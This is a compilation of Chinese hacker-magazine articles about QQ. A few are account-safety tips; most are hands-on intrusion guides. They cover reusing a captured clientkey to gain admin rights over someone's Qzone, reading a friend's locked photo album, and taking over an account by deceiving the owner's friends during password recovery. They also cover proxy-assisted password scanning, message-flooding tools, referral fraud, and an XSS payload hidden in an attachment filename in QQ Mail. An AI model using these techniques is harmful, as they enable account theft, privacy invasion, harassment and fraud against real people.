上了这么多年的网，QQ也用了好几年，但是统计一下自己QQ被盗的经历，真是不堪回首！作为一名Hacker爱好者，对于网络安全意识的培养我已经很“刻意”了，尚且自己的QQ号屡屡被盗，对于那些小菜朋友，他们的QQ被盗经历，一定就更加惨不忍睹了。现在，我就为大家介绍几种非常实用的防盗号方法。

最简单的防盗窃方法就是使用一款可信的QQ防盗号登录软件，我给大家推荐使用QQ防盗号登录器。和网络上那些钓鱼软件的险恶用心不同的是——它绝对不会含后门！所以各位菜鸟朋友可以放心地使用这款QQ防盗号软件，不用再担心自己被网络钓鱼了。

运行工具后，输入要登录的QQ号码和密码，然后单击“登录”，就可以安全登录你的QQ了，如图1。

#### 二、命令行登录法

登录完QQ后，我们打开 Process Explorer 这款工具，在QQ的系统菜单中找到“好友与资料”子菜单，选择其中的“更新好友”，此时 Process Explorer 就已经记录了“更新好友”时的QQ登录参数。

在 Process Explorer 中选择QQ进程，单击鼠标右键，在弹出的快捷菜单中选择“属性”，查看其登录参数。在弹出的属性窗口中可以看到QQ的登录参数，其中包含QQ安装路径、QQ号、哈希参数等信息。

```
D:\QQ\QQ.exe /START QQUIN:5450913 PWDHASH:... /STAT:40 /EMB_HWND:0 /NOAUTOSCAN
```

把上面的登录字符串修改合并后保存为 qq.bat 文件，双击即可登录QQ。该方法能够绕过依赖键盘输入的记录类木马或键盘记录软件，因此安全性较高。


我们可以把这个 qq.bat 文件保存到网络硬盘中，在登录QQ时下载回来并双击运行，这样可以进一步降低被盗号风险。

#### 三、软键盘法

使用软键盘进行输入是一个较为实用的方法。可以在 CMD 下输入 osk.exe 调出系统自带软键盘，或直接在QQ登录界面点击软键盘图标调出输入界面，再用鼠标输入密码。

对于一般键盘记录软件而言，这种方式可显著降低密码被记录的概率。


### 四、360保险箱

360保险箱是360安全中心推出的一款免费的账号密码安全保护软件，采用主动防御技术，可以阻止盗号木马对网游、聊天等程序的侵入，主要帮助用户保护网游账号、聊天账号、网银账号、炒股账号等，防止由于账号丢失导致的虚拟资产和真实资产受到损失。

在360保险箱的聊天工具栏中选择“腾讯QQ”，第一次运行会弹出“360保险箱软件设置”对话框，如图7。在其中设置好QQ的安装目录，然后单击确定按钮，就可以安全地登录QQ了。另外，我们还可以在自己的电脑上安装360安全卫士，以配合使用，这样保护QQ密码安全的效果就更好了！

经过上面的设置，我们以后每次登录QQ时，360保险箱都会弹出“安全扫描”对话框，只有在进行过安全扫描后才能登录QQ。如果发现了什么漏洞，我们可以及时进行修补，这样在登录你的QQ时，QQ安全性就大为提高了，如图8。

> （文章中涉及到的QQ防盗号登录器、Process Explorer、360保险箱，已经收录在光盘中）


## QQ币免费获取小秘籍

为了能够得到QQ币，小菜们可以说是想尽了各种办法，包括盗窃他人的QQ号或上网账号购买QQ币等，但这些方法不仅成功率越来越低而且也是违法的，今天我就给大家介绍一个非常简单的方法，只要大家花费一点时间就可以轻松得到QQ币。

我们登录 http://www.pceggs.com/ ，这是PC蛋蛋的主页，从主页上可以看到点击广告来得金币就能换取很多商品，包括笔记本、数码相机、手机等，来看我是如何快速得到QQ币的。

先在PC蛋蛋注册一个用户并登录，如图1，然后点击PC蛋蛋主页下边的“简单体验教材”或“复杂体验教程”右边的“进入体验”，就可以进入到问答页面，答对问题就可获得金蛋。当获得10000金蛋后就可以去兑换得到5个QQ币了，由于获得10000金蛋的时间比较长而且难度也有点大，因此就不在我们本次的讨论之列了。

那么我们怎样才能够快速获得1Q币呢？点击“推荐好友免费领取1Q币”，就会弹出如图2所示的页面，点击“点击复制地址”，再点击“发送给好友”，系统会提示“地址已经复制到粘贴板！”，将此地址发送给你的好友，当对方通过此地址注册一个PC蛋蛋账号时你就可免费得到1Q币了。


我们可以利用此地址自己推荐自己来注册，将粘贴板中的地址复制到浏览器中回车，就可以打开一个新的网页，在打开的网页中点“注册PC蛋蛋”，就会弹出如图3所示的注册PC蛋蛋账号的网页，填写邮箱和密码等信息并且答对“注册校验”中的试题后，点“确认提交”就可以注册成功了。

接下来分别点图4中的邮箱、自定义首页和“马上体验”，建议大家体验邮箱和趣味问答，这样就可以得到400金蛋。可能会有小菜要问为什么要体验上边的这些东西呢？这是因为只有体验完上面的项目并且至少得到300个金蛋才能点击图4中的“立即拿1Q币”。最后我们再填写自己的真实信息提交，一般等待1到2天后就可以领到1Q币了。


需要注意的是，提交时填写的信息要和你的QQ注册信息一致。

一样，我们到腾讯去查看，1Q币已经到手了，如图5。如果你想得到更多的Q币，可以继续点广告或答题，获得更多的金币来兑换Q币。也可以使用同样的方法继续注册PC蛋蛋账号，由于一个QQ会员能有一次赠送的机会，因此必须再更换一个新的QQ号才能得到赠送的QQ币。为了防止答题或广告时记录你的主页或记住你的信息，系统中最好安装影子系统或还原等软件。


## 免费装扮漂亮可爱的QQ空间

QQ黄钻可以有足够的权限去选择一些装扮自己空间的饰品，这可就难为了很多小菜，谁都想把自己的“门户”打扮得漂漂亮亮，但是如果要花钱一些money的话那可就不太舍得了，所以本文我就教大家如何使用免费的方法来打扮自己QQ空间。

这是我的QQ空间界面，可以看到就是默认的模板和界面，如图1。现在，点出“自定义”按钮，会弹出“自定义”窗口，只有打开了这个自定义窗口，在之后输入代码后才能保存方案，如图2。

```javascript
javascript:window.top.space_addItem(1,26497,80,80,0,0,93);
```

可以看到QQ空间变靓了，变成了黑色的星星背景，如图3。这里就是使用脚本代码来实现对QQ空间的装扮，刚才通过代码已经修改了空间的配置，如果要让这个配置保留下来，只要在自定义窗口中点击保存按钮，这个背景就会被保存下来了。

```javascript
javascript:window.top.space_addItem(1,26498,0,22,0,0,93);
javascript:window.top.space_addItem(1,26497,80,80,0,0,93);
javascript:window.top.space_addItem(1,26341,0,80,0,0,605);
```

上面修改了QQ背景，现在来修改QQ空间的导航代码，我们来使用一款笔者的黑色超酷风格代码，代码如下：javascript:window.top.space_addItem(13,1,100,80,0,0,94); 在IE中输入后，马上可以看到修改后的漂亮的QQ空间导航条了，如图4。现在来修改QQ默认的播放器，因为QQ默认的播放器实在是太丑陋了。这里给大家推荐一款不错的播放器代码，代码如下：javascript:window.top.space_addItem(6,1228,0,0,200,200,0); 在IE地址栏中输入代码后，然后点击自定义窗口中的“保存”按钮（事先要打开自定义窗口），就可以把设置保存下来了，如图5。

经过上面的修改，我们的QQ空间就会变得很漂亮了，现在再来添加一些QQ空间的挂件，代码如下：

- 情人结  `javascript:window.top.space_addItem(16,23732,330,80,600,600,0);`
- 鼠迎新岁  `javascript:window.top.space_addItem(16,23728,350,80,500,600,0);`
- love day  `javascript:window.top.space_addItem(16,23728,350,80,500,600,0);`
- 古风爱情  `javascript:window.top.space_addItem(16,23730,350,80,500,600,0);`
- 五彩祥云  `javascript:window.top.space_addItem(16,23733,350,80,500,600,0);`
- 迎新春  `javascript:window.top.space_addItem(16,23735,350,80,500,600,0);`


我给自己的QQ空间选择了两个不错的QQ挂件代码，代码如下：

```javascript
两只小猴子 javascript:window.top.space_addItem(16,23228,330,80,600,600,0)
奇幻花园 javascript:window.top.space_addItem(16,22103,300,80,500,500,0)
```

按照同样的方法，首先打开“自定义”窗口，然后在IE输入栏中输入上面的代码，最后点击自定义窗口中的保存按钮，就可以把修改方案保存下来了。可以看到多了两只猴子和旋转炮的挂件，是不是喜庆了很多。见图6。我们还可以添加花匠的代码，推荐一款顶级花之葬底代码（带7个人参果花园代码），在IE输入栏中输入代码 `javascript:window.top.space_addItem(7,20981,0,0,0,1,0)`，然后保存就可以看到效果了，如图7。

现在我们的空间看起来是不是漂亮了很多？还在等什么，快去装扮你的空间吧！

## 利用QQ飞车地址截取，获得QQ多种权限

我们是不是为了能够进入某人的QQ空间而想尽了各种各样的办法，但最终还是失败而告终，不过没关系，这次我就教大家如何进入别人的QQ空间以及查看对方QQ空间的其他信息。

这里我们只需要对方的QQ飞车地址，比如我QQ上的一个弟兄，今天就拿他来练手吧。我让他把QQ飞车的地址发了过来，地址是“http://speed.qq.com/?clientuin=798799117&clientkey=29DA315B5C42D3C8693E8EF1476E2B63485405C49EB0BA8334702&ADTAG=CLIENT.QQ.1811_MyTip.0”，如图1。

然后我们到 http://www.haikcjidi.cn/wvww/ 下载“权限漏洞不传代码”，如图2，从中找到QQ空间的地址“http://imgcache.qq.com/qzone/jump.html#zzpanelkey=权限代码&zzpaneluin=QQ号&url=http%3A%2F%2Fuser.qzone.qq.com%2FQQ号”，如图3，在权限代码那一项填上QQ飞车“key=”后面的代码，在QQ号那一项填上我们需要进入QQ空间的那个……

## QQ宝典

我们上面索要来的 QQ“飞车”的地址的 key 是“29DA315B5C42D3C8693E8EF1476E2B63485405C49EB0BA32CDCBA45CF863BDA3”，QQ 号码是 798799117，那么他的 QQ 空间地址就变成了“http://imgcache.qq.com/qzone/jump.html#zzpanelkey=29DA315B5C42D3C8693E8EF1476E2B63485405C49EB0BA32CDCBA45CF863BDA3&zzpaneluin=798799117&url=http%3A%2F%2Fuser.qzone.qq.com%2F798799117”这样。

我们先使用平常浏览别人 QQ 空间的方法来浏览对方的空间，如图4。大家看我图中标出的，此时我们是没有权限的，我们不能修改他的东西。我们现在把刚才修改过的地址粘贴到 IE 的地址栏上，如图5，提交后，我们转到了空间的地址上，但这回我们就可以以这个空间的管理员权限来管理这个空间了，如图6。至于接下来的操作，我就不必多说了，大家自由去发挥吧！

QQ 号码。注意，代码要从“key=”一直到“&”前结束。例如……

### 鲜为人知的免费黄钻活动

> 红莲骑士

最近网上流传着许多 QQ 刷钻技巧，但其中有很多都是骗人的，不是发木马，就是骗流量。即使有一些免费的活动可以获得钻石，但也只限那么几天。下面我就介绍一个 QQ 官方的免费黄钻活动，不仅仅是几天哦！我们必须要有一个 QQ 空间，其次流量要稍微大些（至少每天要有 3 个人的访问量），先进入 QQ 空间，选择“自定义”（图1），然后打开“模块管理”（图2），我们会发现有一个“广告模块”（图3）。

我先介绍一下，在空间中放广告可以获得影响力积分，只要每天访问量在 3 次或 3 次以上，并且选择大模式，每天可以增加 2 分的影响力积分（小模式每天只增加 1 分）。如果已经开通黄钻的话还将获得双倍的积分。影响力积分还可以通过参加品牌空间活动来获得，比如参加 brand.qq.com 品牌空间的活动等。

## 找回QQ好友有新招

雷克斯de眼泪

很多小菜会因为自己的不小心或是其他原因而误把自己好友的 QQ 号给删除，等联系的时候才发现找不到他们的 QQ 了，这可怎么办呢？别担心，下面我就教大家如何找回被误删除的 QQ 好友。

### 第一招：利用QQ邮箱找回好友

首先登录 QQ，打开我们的 QQ 邮箱，选中左边的“写信”或者“联系人”（图1），是不是看到了有个“联系人”的选项（图2），里面罗列出了你在 QQ 中的所有分组？那还愣着干嘛？赶快点开看看里边是什么吧，找找看有没有需要找回的 QQ 好友（图3）。需要注意的是：联系人里面都是我们分组加人的好友，而 QQ 本身默认的“我的好友”中的所有 QQ 号码是不会被添加到里面的。我们可以点开上面的“全部联系人”，这里则是把各个分组里的好友全部集中在了一起。这时候我们可能会发现，里面所显示的都是过去的分组的好友，但却没有现在的分组的好友？我们点击下面的“同步 QQ 好友”，这样就会将我们现在的分组信息增加到联系人中了。如果我们经常更新同步 QQ 好友的话，那么在 QQ 中误删除的好友都可以在这里找到，所以也希望各位能够经常同步 QQ 好友，以免好友被误删除后而无法找回。

### 第二招：利用QQ秀找回好友

打开 QQ 秀的登录页面“http://qqshow.qq.com/”进行登录（图5），成功登录后点击“我的 QQ 秀”里边的“我的好友”选项（图6），是不是出现了好友的 QQ 秀列表，并且详细地显示出了 QQ 好友的昵称以及 QQ 号码呢（图7），快去找回那些丢失的 QQ 好友吧！

#### 第三招：利用自助恢复找回好友

我们打开 QQ 的登录界面，点击“设置”按钮（图8），选择“其他选项”下的“申请密码保护”来到 QQ 帐号的服务中心（图9），在页面中有个“自助恢复 QQ 好友”功能（图10），我们点击“立即恢复”，此时会打开 QQ 好友恢复系统的页面，我们输入想要恢复好友的 QQ 号码，也就是自己的 QQ 号了（图11）。成功登录后系统会让我们选择需要恢复的范围（图12），这里提供了三个选项供我们选择，大家可以根据自己的需要进行选择，选择好后点击“提交”按钮就行了，这个是需要通过审核的（图13）。这种方法也是比较好的，对于找回近三个月内丢失的 QQ 好友效果非常好。

## 还原无敌破解QQ加密空间查看相册

爆博☆（lyhack8）

近日听说好友 LM 跑到山西旅游去了，旅游的照片都传到了 QQ 空间上，我就迫不及待地登录他的空间去浏览靓照，可是打开网页却傻眼了，还要密码，如图1。看似简单，但是答案却不简单，他也不告诉我，没办法，只有想别的办法了。

以前也知道怎么破解 QQ 加密相册的密码，但是费起码得先进入对方的 QQ 空间才行，这可好，连空间都进不去了。没办法我就到我乐网（www.56.com）去看视频了，忽然看到了“制作动感相册”这一项，如图2，我就抱着试试看的态度试验了一下，直接进入“制作动感相册”，看到“添加图片”这一项，直接选择“导入网页，QQ 相册”，然后填入对方的 QQ 号码，点击“开始导入”，如图3。不一会儿，照片就出来了，如图4。哈哈，这个方法很简单吧，虽然没有进入对方的 QQ 空间，但是他的照片还是被我偷窥到了。暴力破解只能破解较弱的密码，对于强悍的密码就不行了。但是利用我乐网站“制作动感相册”的这种方法则是很无敌，再厉害的密码也挡不住我们！

## Q币，刷！刷！刷！

刘潇洋 & 黄李梅

对于第 8 期杂志“QQ 币免费获取小秘密”一文中所介绍的方法，我很久以前就试用过了，不过一个 QQ 号只能赠送一次 Q 币，而且还得 1-2 天后才能到账，实在是令人不爽。这次我就为各位小菜介绍一种新的刷 QQ 币的方法。大家都知道 QQ 有个“搜搜问问”业务吧，平时小菜们把它点亮后可能就不会再去管它了，而我要介绍的就是如何利用问问的积分来刷 Q 币。如图1。积分可以兑换 Q 币、数码产品、公仔等许多东西，要是单纯地开小号来刷分，一般中午刷完，下午问问就会来信说你违背了原则，封闭三天。第一次封三天，第二次封七天，而且积分、等级、经验都将变为零，那有没有刷分快，又不会被封的方法呢？当然有了，大家继续往下看。首先到 signup.qq.com（在这几乎可以轻易冲到 9 位的 QQ 号，并且申请时不需要填写密保信息）这个外国网站申请 3 个 QQ 号（号码越多刷的分就越多），为了方便操作，将这三个新的 QQ 号和你使用的 QQ 号互相加为好友，使用这四个 QQ 号分别到问问中提一个合理的问题……（长段正文，介绍通过 A/B/C/D 四个号在问问中提问、回答、设最佳答案来累计积分的方法）

## QQ免费建群我也会

老K 教练

腾讯 QQ 建群要求用户等级必须达到 16 级或者开通会员才行，可是很多用户达不到条件，于是免费建群工具就出现了……

“中天 QQ 建群精灵”大家应该都知道……现在 QQ2007、QQ2008 已不支持旧方式查看属性，可使用抓包工具获取属性值。QQ2007 可用 WSockExpert，QQ2008 需用 SmartSniff 抓包。第一步打开 smsniff.exe 点击“开始抓包”；第二步点击“停止”，在数据中查找关键字符串（如 clientkey 后的十六进制串）作为关键数据；第三步再进行后续操作。

如图所示，复制相关内容并粘贴到建群精灵中，填写对应信息后点击“开始建立”即可。建好群后会收到激活通知，激活后即可使用（见图5）。

- 无法在群用户中搜索到，就是说群主只能主动添加别人。
- 一个号码只能建一个群，且建好后不可解散或转让。

如果使用的是 QQ2007，可直接使用 WSockExpert 选中 QQ 进程抓包即可。（文中涉及工具如中天 QQ 建群精灵、WSockExpert、SmartSniff 已收录到光盘中）

## QQ空间日志流量刷到爆——CJ也疯狂

最近很多 MM 喜欢刷她们 QQ 空间的流量，于是笔者在网上寻找空间流量工具，通过测试发现一款可用工具“QQ 日志流量狂人 V1.2 版”，其主界面如图1所示。

第一步输入 QQ 号并读取空间日志；第二步在日志列表中选择要刷的日志；第三步点击“开始”即可刷量（如图2）。但在论坛推广号场景下，按钮可能会变灰导致功能不可用。

为解决灰色按钮问题，可使用“灰色按钮克星”工具（见图3、图4）：激活后按钮恢复可用，输入 QQ 号并点击“刷 QQ 所有日志”，空间日志流量即可快速提升。

> （本文所涉及到的《QQ 日志流量狂人 V1.2 版》《灰色按钮克星》已收录到光盘中）

## QQ邮箱跨站又来新招

不知道上次和 Hackest 所写的那篇“邮箱跨站风波”，让大家玩得爽不爽，今天又给大家带来了一个新的跨站漏洞。

#### 一、挖掘过程

这次漏洞的位置是 QQ 邮箱附件，但是利用方式不是常规的上传附件，需要通过 QQ 的文件中转站作为媒介。以前挖掘 QQ 邮箱漏洞时就想过这个地方，但是那时使用的方法对此无效，后来和杨过测试的时候发现 QQ 文件中转站对上传文件的验证较弱，于是就想到了利用“文件中转站”发送附件给好友的这个功能进行挂马或者钓鱼攻击。

这次的漏洞还是比较不错的，对 QQ 群邮件和单独 QQ 邮件通杀，同时还可以单独使用。漏洞的原理和 PHPWind 附件文件名跨站脚本漏洞差不多，其效果图如下：QQ 群跨站如图1所示，QQ 个人邮箱跨站如图2所示，文件提取单独利用如图3所示。

#### 二、利用方法

说了这么多大家肯定都等不及了吧，下面我就教大家如何利用这个漏洞。首先进入 QQ 邮箱，点文件中转站，选择上传附件，并自己构造一个附件，如图4。`D,\diaopai<iframe src=http://www.baidu.com%20width=800%20height=800></iframe>XXS.rar` 就是利用代码，上传即可。上传完毕后刷新一下就可以看见自己伪造的附件了，文件大小是 0KB，如图5。点击发送给好友就行了，如图6。可以选择 QQ 个人和群邮件，发送后的效果就是本文前边所看到的图1、图2、图3。

```
D,\diaopai<iframe src=http://www.baidu.com%20width=800%20height=800></iframe>XXS.rar
```

## 绝赞使用黄钻饰品，盗取别人空间模块

flyspring & 徐帅

曾几何时，许多小菜都会从网上下载一些专用代码来支起自己美观漂亮的 QQ 空间，但是腾讯即将把空间升级为 5.0，空间升级后的好处有很多，但同样也带来了一个致命的坏处，那就是限制了使用代码。不能使用代码那还怎么装扮空间呢？没关系，现在我就教大家一个小方法，即使不输入代码也能让普通用户使用黄钻饰品，同时还可以把别人个性的模块据为己有。

操作方法很简单，首先在我们电脑中要安装一个下载软件（迅雷、快车、旋风等都可以），我使用的是迅雷。打开一个黄钻用户的 QQ 空间……在弹出的菜单中选择“使用迅雷下载全部链接”，将所有链接都下载到新建文件夹中。下载完成后打开迅雷中以“.gif”为后缀的文件，寻找自己喜欢的饰品或模块即可。

这个就是我喜欢的挂件。在迅雷中右击该文件，选择“属性”，然后复制其地址。再进入你的 QQ 空间中点击“自定义”，选择“新建模块”，新建一个图片模块，在地址处粘贴刚才复制下来的地址，输入验证码并确定，新建模块就出来了。

我们可以使用鼠标调整其大小，存放在适当的位置，保存图片，看看我的这个挂件和黄钻的有什么区别。根据我的测试，大家可以按照这种方法来添加 banner、公告栏、花边小店、人参果等等，也可以“盗取”他人空间的个性模块。

## 通过合法途径来偷走你的QQ号

不完整的旋律

十一长假，逃离了忙碌的校园，回到家中终于可以悠闲地上网逛朋友的 QQ 空间了。当来到一个昔日好友的空间时，发现她的大多数相册都是需要密码才能进入的，我绞尽心思猜测了好长时间的密码，最终无功而返。后来想到通过“申诉找回”是否能找回这位好友的密码……

来到 QQ 找回密码的页面，发现比以前多出了一项内容——查看有无密保。这是我们开始的第一步。查询后可以看到她的密码保护是第一代的。若对方设置了第二代保护并添加手机异常通知则难以进行。因为是熟悉好友，可利用已知基本信息进行“申诉找回”。

## QQ宝典

图1

图2

图3

资料对于我们“找回”朋友的QQ密码自然也会多一些帮助的。因为是我的好友，所以这些资料自然是熟悉不过了。再点击“下一步”，要求回答问题，随便回答，然后点击“下一步”，进入了我们最关键的一步：填写对方QQ好友的真实资料，如图3。

系统并没有具体要求填写多少个，经过我的测试至少需要填写两个才有成功的可能。我自己自然是一个，还有一个找谁呢？这时我根据自己对这位朋友的了解，在我的QQ好友里找了一番，找了一位在线的她以前的同学，填写完成后点击“下一步”跳出受理页面，我知道要进入最关键的时刻了。打开自己在好友辅助证实中填写的QQ邮箱，系统已经发来了邮件，如图4。

图4

邮件中提示需要在3个小时内给好友“辅助证实”，这也就是为什么我选择在线好友的原因了。点击邮件中链接地址去登录，要求我们输入好友名字和回执号，回执号可以在你填写的联系方式中的邮箱内找到，如图5。这时需要把回执号发给那位在线的好友，并告诉她“XXX好友的QQ被盗了，她让我叫你帮忙证实一下，这是她让我给你的回执号”，一般是不会怀疑的。

图5

完成这几项后我们就可以去睡觉了。一觉醒来，打开邮箱查看，成功了，点击邮件中的链接地址去重设密码，然后登录，我想看的相册自然也就不在话下了！利用这种方法我们还可以用来社工其他的QQ号，具体如何社工就要看大家自由发挥了！

## 另类QQ扫号大法

Z_HK

我们以前经常使用的天缘QQ扫号工具和QQCHA等一批扫号软件现在都已经被封了，在网上搜索这类软件也找不到既免费又好用的。我找到的几个好用的也都是要收费的，小菜们并非职业盗号者，因此没必要去玩这样的“投资”，下面我就教大家一个另类的扫号方法。

我们需要用到“QQ空间人气精灵”这款软件，如图1。它曾经在以前的《黑客X档案》中介绍过，但是那篇文章主讲的是刷QQ空间人气，现在我们要用它来扫QQ号。

双击运行软件，添加搞到的QQ号码，批量登录，把我们想要扫的QQ号导入其中，如图2。方法就和以前介绍的刷QQ空间人气一样，但我们的目的是扫号，顺便也可以刷刷人气，一举两得。为了方便快速，我们可以把图3中的那几个选项都勾上，这样输入验证码后就会自动确认提交了。

不过这个方法仍然存在一个问题，就是当扫了四、五个号时，会出现“验证码输入有误”的提示，如图4。其实这并不是我们真的输入了错误的验证码，而是腾讯公司对此进行了限制。为了解决这个问题我们还需要一个花刺代理。代理资源很好找，可以到网上搜一搜，我给大家提供一个每日更新IP代理的网站：http://www.pass-e.com/proxy，当我们扫号时如果出现了上述的那个错误提示信息，换个IP就OK了。由于“QQ空间人气精灵”并非纯正的扫号软件，所以只能查询QQ密码是否正确，而诸如查询QB、QD、密保等信息仍需手动查询。这也算美中不足吧。

图1

## QQ2008常见攻击方法大揭秘

如今的QQ攻击工具可谓层出不穷，其原理多是利用QQ自身漏洞向目标发送大量攻击信息，使对方掉线或卡死。本文简要介绍QQ2008常见攻击方式，帮助大家提高防范意识。

### 一、QQ视频弹窗攻击器

攻击方式：视频请求弹窗。该软件通过不断发起视频请求干扰对方，操作步骤包括启动工具、打开聊天窗口、点击“视频聊天”并触发脚本按键循环等，直到手动停止。

### 二、QQ炸弹—刷屏器

攻击方式：文字攻击。

下载安装该软件后，运行并设置攻击频率、攻击语句等参数，点击“攻击”后将向目标聊天窗口连续发送信息，直到点击“熄火”停止。

### 三、萝卜QQ轰炸机

攻击方式：文字攻击。该工具可对好友、陌生人及群进行高频文本轰炸，可设置循环次数、发送频率与多条语句并自动轮发，点击“开始轰炸”后持续发送；频率过高时会受QQ限制。

轰炸的循环次数（例如1000），设置轰炸频率500毫秒，再输入攻击语句，点击“添加内容”，然后打开在线的QQ手机用户并与其聊天，点“设置OK”，最后点击“开始轰炸”就可以攻击了。

### 四、风云QQ攻击器

攻击方式：视频请求弹窗。

这是一款利用QQ视频请求弹窗进行攻击的软件，它采用了鼠标模拟技术，自动点击、自动取消，以此循环来达到攻击的目的，使用方法如下：首先设置屏幕分辨率为1024×768，然后启动“风云QQ攻击器”和QQ2008，在QQ中打开想要攻击人的聊天窗口，移动聊天窗口（注意不要改变其大小），将该窗口与“风云QQ攻击器”最上部的界面拼接起来，要相互吻合，如图4。由于程序采用了鼠标模拟技术，所以需要有个准确的位置，以上两部分必须吻合。然后点击“开始攻击”，就会不断弹出视频聊天请求窗口，从而开始攻击对方，此时鼠标将无法移动，需要按F3停止后才可以使用，如果要停止攻击的话，按F3就行了。

### 五、QQ连发器2008增强版

攻击方式：文字攻击。

该软件支持新版旧版QQ和群消息发送，可以同时向多人发送，支持多文本发送，连发送时间都可以自行设置，使用方法如下：启动QQ2008，打开想要攻击人的聊天窗口（可以是临时会话窗口），点击“获取”，在上面的空白处就会显示将与谁交谈，以后连发器就会攻击此人，如图5。如果攻击时希望发送不同的内容（支持十个不同文本发送），则点击“多文本发送”，于是右边就会弹出“文本一”至“文本九”的窗口，在里面输入不同的文本，添加文本时要注意删除“文本”二字，文本为空者以后会跳过不发送。接下来勾选“连发间隔时间”，设置为500ms，点击“连发”，就开始连续不断地攻击对方了。

（本文所涉及到的QQ视频弹窗攻击器、QQ炸弹—刷屏器、萝卜QQ轰炸机、风云QQ攻击器、QQ连发器2008增强版已收录到光盘中）

### 看我不需密码进入加密空间或相册

ddjnk

想必大家对好友或MM的QQ加密空间或加密相册都非常感兴趣吧，但是没有正确的密码是无法看到里边的东西的。不过大家不用这么灰心，小菜我本着共享的原始黑客精神就来教教大家如何不需要密码也能进入加密的空间或加密相册。

首先进行一下准备工作，不需要任何工具，只要请你的“目标”访问他自己的QQ空间，并请他在访问的时候把跳转之前的网址用快捷键Ctrl+C复制下来就行了（小编特别提醒大家，这个地址非常难获取，小编也是试了无数次才搞定的），如图1。

复制下来后让对方把这个地址发给你，比如我刚得到的“目标”的QQ空间地址是“http://imgcache.qq.com/qzone/jump.html#zzpanelkey=...”这串地址。大家一定要注意，是跳转前的地址而不是进入后的地址。把上面“目标”发给你的地址复制到IE的地址栏并回车，我们就会发现自己已经得到目标空间的最高权限了，如图2（小编再次提醒大家，这段地址代码是有时效性的，最好是拿到代码当时就使用，过了一定的时间它是会失效的）。有了最高权限，接下来要看加密相册就不用我说了吧！

### 两秒钟点亮穿越火线图标

这天一好友叫我帮他开CF（穿越火线）的图标。要知道，点CF的图标就要先绑定大区，然后再去升级30荣誉才可以点亮图标（500经验=1荣誉），难度非常大呀！我在网上逛了一下，结果找到了“辉哥CF图标点亮器”，试用了一下，感觉非常方便，因此就写出来和众位小菜分享了。

先来看看我朋友的图标情况，虽然开通的图标也不少，但确实没有CF（穿越火线）的图标，如图1。

我们打开“辉哥CF图标点亮器”（名字不错，和我的真名相同，呵呵——），如图2。打开后，输入QQ号和密码，然后点击“点亮图标”按钮，如图3。效果如图4，已经成功点亮了。

> （本文所涉及到的辉哥CF图标点亮器已收录到光盘中）

## 菜鸟式纯操作破解QQ聊天

小菜们是否曾遇到过这样的问题：想和某个MM聊天但对方不加你为好友，或者添加时被拒绝。作者介绍了一个不需要复杂工具、通过简单操作实现发起聊天的方法。

`http://netbar.qq.com/samebarlist/user_talk.shtml?v=1&uin=475418930&site`

该网址是类似“强制聊天”功能的地址栏示例（图1）。将其中QQ号替换为目标号码即可弹出聊天窗口（图2）。

需要注意：QQ可能会弹出验证码窗口（图3），按提示输入后可继续。文中还提到可在网址后增加参数以减少阻碍。

## 拿什么拯救你——我的QQ

QQ已经成为生活、工作、交流中的常用工具，账号安全问题也因此凸显。作者分享了关于“盗号与防盗”的经验与看法。

#### 一、变态密码很强大

#### 1. 极品符号“—”

建议使用更复杂的密码组合（如英文与数字混合），避免被简单识别或破解工具轻易处理，强调密码安全的重要性。

一些不起眼的小细节。我就发现无论是VVOQ大盗、金狐QQ大盗，还是极限版QQ大盗，在截取到QQ号和密码并发送到网站上时，都有一个相同的特点，就是在区分QQ号和密码时都会用到几个减号来间隔，如图1。

正是这几个不起眼的减号引起了我的思考，如果我们在QQ密码前也加入一个减号的话，如图2，那么无论是从网上截取还是使用扫号软件处理，都会忽略掉我们在密码前的减号，如图3，这样一来我们的QQ号就相对安全多了。

看到这儿，可能有小菜要问了：“为什么一定要把减号放在密码的前面呢？放在后面不可以吗？”放在后面当然也是可以的，但是从安全的角度来看，这样做并不好，因为如果把减号放在密码后面的话，虽然在网页上看不出什么破绽，但是盗号者如果使用邮箱接收呢？要知道邮箱收信的格式是[123456789----123456789]，那么你的减号不就暴露无遗了吗？

#### 2. 变态输入防木马

大多数木马程序都是通过记录键盘输入来盗取密码的，相应的防范方法有两种：乱序输入法和软键盘输入法。假如我们的密码是“12345”，可以先输入“1235”，再把光标移到空缺位置补上“4”，这样木马截取到的密码就会变成“12354”。

软键盘输入法也叫小键盘输入。从2005 Beta3版本以后，QQ采用nProtect键盘加密保护技术，但随着盗号木马更新，部分木马仍可绕过。若环境不可信，可优先使用密码输入框旁的小键盘进行输入（如图4）。

注意，在软键盘上同样要区分大小写。另外，也可以点击输入法上的小键盘图标，调出软键盘，如图5。

### 二、超长Q号躲过木马

“545091”，哇，是六位的QQ号呀。六位数的QQ号虽然很酷、很炫，在朋友面前很有面子，但是背后却也隐藏着巨大的危机，因为目前大多数盗号木马只盗取10位数以内的QQ号。

现在常见的QQ号一般都是八九位，七位、六位、五位的那都是精品或极品，很是旁人羡慕的。一旦被盗号木马截取到了密码，没有一套完整的密码保护，那你就别指望什么了。怎样做才能使自己的QQ号躲过木马的眼睛呢？有一个好办法，就是登录QQ时，在输入QQ号的地方先输入1个0，再输入你的QQ号，如图6。这样既不影响正常登录，又可以骗过盗号木马的眼睛。

#### 三、让社工无处可钻

如果说，最安全的一台计算机是已经拔了插头的计算机，那么社会工程师就是说服对方打开计算机的那个人。社会工程学的隐形攻击无处不在，小菜们要如何才能保护好自己的敏感信息呢？

#### 1. 网吧防社工

在网吧上网不像在家中，浏览记录并非只有自己知道，且可能无法彻底清除。浏览过的网页信息可能被后续使用者利用。登录博客、邮箱等服务时应避免“是否保存密码”等选项；即使修改密码时有二次确认，也不能掉以轻心。离开网吧前应删除浏览记录与QQ聊天记录并重启电脑。

#### 2. QQ防社工

腾讯在用户注册或开通业务时常要求填写个人信息，如生日、真实姓名、所在地等。若密码与这些信息关联，应及时修改。文中举例说明：若用户以姓名拼音加生日作为密码，且在QQ空间公开了部分个人资料，攻击者可通过生肖、日期习惯等方式缩小猜测范围，最终试出密码。结论是：尽量不要设置与现实生活强关联的密码，也不要在网上公开过多敏感信息。

## 两条在网吧实用的QQ会员功能

很多玩黑的小菜都开通了QQ会员功能，除了能点亮几个没什么实际作用的图标外，其实还有一些会员功能是比较实用的，今天我就给那些经常在网吧上网的朋友介绍两个非常实用的功能。

#### 一、表情漫游

